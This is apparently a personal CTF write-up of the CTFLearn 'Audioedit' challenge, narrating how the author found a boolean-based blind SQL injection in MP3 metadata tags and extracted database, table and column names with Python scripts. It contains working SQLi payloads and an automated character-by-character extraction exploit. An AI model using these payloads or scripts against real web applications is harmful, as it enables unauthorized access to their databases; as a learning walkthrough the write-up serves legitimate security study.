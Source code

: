 ```yaml
---
layout: post
title:  "Audioedit Writeup: CTFLearn"
date:   2020-09-18 16:25:10 +0545
author: machinexa
image: /writeups/assets/images/ctflearn_audioedit_homepage.png
category: Writeups
---
```


The CTF was terribly insane blind SQLi. I started in morning,  lost my entire day on simple mistakes and got real frustated when doing the challenge. The URL was [https://web.ctflearn.com/audioedit/](https://web.ctflearn.com/audioedit/). I received this challenge in night from my friend **Jokr**.So, lets get started.

# Finding the Injection
As its name suggest, it takes `.mp3` file and edits it. So, we have a file upload which leads to edit page with unique generated filename. I tried playing with file upload. Eventually, it lead me to nowhere and i assumed file upload was secure. So, what to do then. Well, it took me sometime to realize the file was being fetched from database. The parameter looked like this: [?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3](https://web.ctflearn.com/audioedit/edit.php?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3)  

Though jokr said SQLi isnt here still I tried SQL injection and injecting a quote, i  got error **"Error fetching audio from DB"** which confirmed the vulnerability.

![Error String](/writeups/assets/images/ctflearn_audioedit_errorpage.png)

Trying SQLi for sometime again failed me. It wasnt working for some reasons (not because of rabbit). Later, injecting `"` gave me same error as `'`  which means its not vulnerable. I took some caffeine and started thinking where could i find possible attack vector as i could only upload `.mp3`. 

Later he gave a hint that SQLi is in exif metadata. Also, `exiftool` didnt work for mp3 file, so i had to find something different. The module `python3-mutagen` is a module for adding tags in mp3 which provided `mid3v2` a perfect cmdline script for the situation.

# Knowing the Injection
First, i confirmed the vulnerability by adding a single quote (and by testing double quote). This command injects author tag in mp3: `mid3v2 -a "' or '" testing.mp3`. I got 0 in author response which indicates condition evaluated to False. Since, running program, uploading it and checking condition is lengthy, i used `Burpsuite` which was my second mistake.  

![Burp Request](/writeups/assets/images/ctflearn_audioedit_burprequest.png)

I tried sending some advanced payloads like `' or 1=1 or '` and `' and 1=1 and '` to see how it behaves. Unfortunately, it was throwing error. Each time i tried something new, it gave a error. One more thing to notice is that sending file content with same text but entirely different extension caused **File Exist** error to be thrown. Mine frustation slowly increased with time, later i found out it was because i directly edited the response *(which i should never have).*

I tried to make a python3 script to upload the file and directly give me response which cost me around 1-2 hour. I used http instead of https which caused error. Finally i have a script that does automatically does everything, i just have to type the payload. Here's a small portion: 
```python
url = "https://web.ctflearn.com/audioedit/submit_upload.php"
while True:
    s = requests.Session()
    multipart_data = MultipartEncoder(
        fields = {
            'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
        })
    headers = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': multipart_data.content_type
        } 
    def setcmd():
        command = 'mid3v2 -a "' + get_random_string(4) + input("Enter SQLi payload: ") + '" testing.mp3'
        print(command)
        system(command)
    setcmd()
    response = s.post(url, data=multipart_data, headers=headers)
    soup = BeautifulSoup(response.text, 'html.parser')
    for small in soup.find_all('small'):
        print(small)
``` 
<br>
Finally i found out what i was exploiting was **Boolean based Blind SQLi**. The injection point was `' or SQLCOMMAND or '`. For futher confirmation, i did this which i thought would eval to true and did evaluate to true `' and 2=2 or 99=99 or '`.
# Exploing SQLi Blindly
The insanity starts here. I DM'ed **Blindhero**, another of my nice mentor/friend for some tips on how to get dbms, tables.. He told me to use `SELECT CASE WHEN` which works on `Sqlite`. Unfortunately, it didnt work as it was `MySQL`. He also said about how to get database, table and so on. He constantly helped me debug my payload. Now, i started by very basic information gathering: `' and 2=2 or (SELECT substring(version(),1,1)=5) or '` which gave 1 which is true. 

Then, moving forward to finding current database which was not easy but ok. Since, it was boolean based blind doing it by hand would take ages. So, i coded some exploit. Crafting query took time but eventually this `' and 2=2 or (SELECT substr(database(),1,1)='a')` returned true. Here's some of my code with explanation *(shitty code)*.
```python
allchar = 'abcdeghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
E = SQLExploit()
while True:
    for i in allchar:
        s = requests.Session()
        E.reset()
        time.sleep(0.2)
        if E.exploitdb(i) == True:
            print("Breaked loop")
            break
        else:
            continue
``` 
<br>
E is a **SQLExploit** object which i will talk later, and tries all the character while `reset()` function opens the mp3 file again. I ran into problem where first query ran successfully while second errored out in while loop. This again wasted my 10m along with giving me some irritation. The SQLExploit class looks like this: 
```python
class SQLExploit:
    def __init__(self):
        self.md = ""
        self.hd = ""
        self.text = ""
        self.pos = 1

    def reset(self):
        self.md = MultipartEncoder(
            fields = {
                'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
            }
        )
        self.hd = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': self.md.content_type
        }
    def setcmd(self, character):
        #Finds database
        try:
            command = 'mid3v2 -a "' + get_random_string(5) +   "' and 2=2 or (select substring(database()," + str(self.pos) + ",1)='" + character +"') or '" + '" testing.mp3'
            print(command)
            system(command)
        except Exception as E:
            print(E)
```
<br>
`self.md` and `self.hd` are multipart data and headers respectively. `reset()` opens the mp3 file while `get_random_string(5)` gets random string of length 5 as it name says. `system()` is short of `os.system()` and position is `self.pos` is position of substr. Since, we got 1st postion as 'a', we need to increment it. `self.text` is for storing name of database found.

So, having everything we need lets start the exploit. Also, some part was slightly modified in this code which i wont show as its not necessary.
Now, lets run the exploit. 

![Database Audioedit](/writeups/assets/images/ctflearn_audioedit_database.png)

Looks nice right? Lets go for table. I asked him about how to find tables and hinted about information_schema. I created similar database and table in localhost and came up with this:  
 `(SELECT table_schema, table_name FROM information_schema.tables where table_schema = 'audioedit' and table_name LIKE 'a%' limit 1;)`

Unfortunately, its hard to include in payload thats why i did `substr()` method. Also, debugging my payload and improving it i get:     
`' and 2=2 or (SELECT substr(table_name,1,1) FROM information_schema.tables where table_schema = 'audioedit' limit 1)='h' or '`    
`setcmd()` function is sligtly modifed and exploiting gives me `audioedit` which is same as database name.

Ah, i was tired and irritated. Took some **caffeine** again and got started. For numbers of columns in that table, querying information schema i used this:   
`' and 2=2 or (SELECT substring(count(*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`  
<br>
So, columns number are 5, now what. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
```sql
' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
' and 2=2 or (SELECT((SELECT count(*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
' and 2=2 or (select substr(column_name,1,1)='y' from information_schema.columns where table_name = 'audioedit' limit 1,1) or '
```
<br>
First i thought `limit` was blocked as every payload used it. Trying simpler payloads like `' and 2=2 or (select version() like '5%' limit 1) or '` did work. I got to a point when payload was large, then i added `()`  which caused error. Ah, the spaces are problem. Why the hell did i used `2=2`. Shit. Also, i reduced `get_random_string()` to length of 2. Finally it worked like a charm and got the first column name, then second, then third. 

![Random Column name](/writeups/assets/images/ctflearn_audioedit_random.png)

I did some SQL magic in column **File** and found out the flag was in file `supersecretflagf1le.mp3`. So, i used the file parameter to reference that file and unfortunately i didnt get flag. 

# Audio Editing
Its the final step, setting visualization to sonogram and editing some other stuffs, i get the flag embedded in image.

![Random Column name](/writeups/assets/images/ctflearn_audioedit_flag.png)

Also i used this resource constantly during exploiting SQLi: [SQL Wiki](https://sqlwiki.netspi.com/)


# Takeaway 

* Always check for lenth of SQL query you can inject
* Pay attention to smaller details to prevent error
* Never edit a binary by hand in `Burpsuite`


